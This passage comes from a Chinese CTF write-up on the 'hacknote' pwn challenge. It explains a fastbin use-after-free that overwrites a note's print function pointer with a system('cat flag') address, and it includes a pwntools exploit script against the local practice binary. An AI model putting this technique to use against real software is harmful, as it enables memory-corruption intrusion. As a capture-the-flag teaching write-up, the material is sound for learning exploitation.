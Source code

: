 - 此时如果申请`content chunk`且大小为`8`，那么程序则会从`fastbin`的`0x10`单向链表中分配两个`0x10`的`chunk`
- 由于`chunk2`是后被释放，所以在`fastbin`中先被摘除，原`chunk2`的`struct chunk`空间被重新启用作为`chunk3`的`struct chunk`，原`chunk1`的`struct chunk`空间被重新启用作为`chunk3`的`content chunk`，结构图如图所示

![](images/11.png#pic_center)

- 这样一来，在创建`chunk3`时，向`content chunk`中写数据的时候直接写上`system("cat flag")`地址，那么`sys_addr`就会写在`chunk1`的`print`函数指针的位置
- 由于在释放时，`chunk`指针未置空，因此依旧可以调用`chunk1`的打印功能，此时直接在菜单中选择`print_node`，选择`node0`即可触发`system("cat flag")`

### EXP

```python
from pwn import *

context(arch='i386', os='linux', log_level='debug')

r = process('./hacknote')

def addnode(size, content):
    r.recvuntil(b'Your choice :')
    r.sendline(b'1')
    r.recvuntil(b'Note size :')
    r.sendline(size)
    r.recvuntil(b'Content :')
    r.sendline(content)

def delnode(index):
    r.recvuntil(b'Your choice :')
    r.sendline(b'2')
    r.recvuntil(b'Index :')
    r.sendline(index)

def printnode(index):
    r.recvuntil(b'Your choice :')
    r.sendline(b'3')
    r.recvuntil(b'Index :')
    r.sendline(index)


magic_addr = 0x08048986
addnode(b'24', b'chunk1')
addnode(b'24', b'chunk2')
delnode(b'0')
delnode(b'1')
addnode(b'8', p32(magic_addr))
```
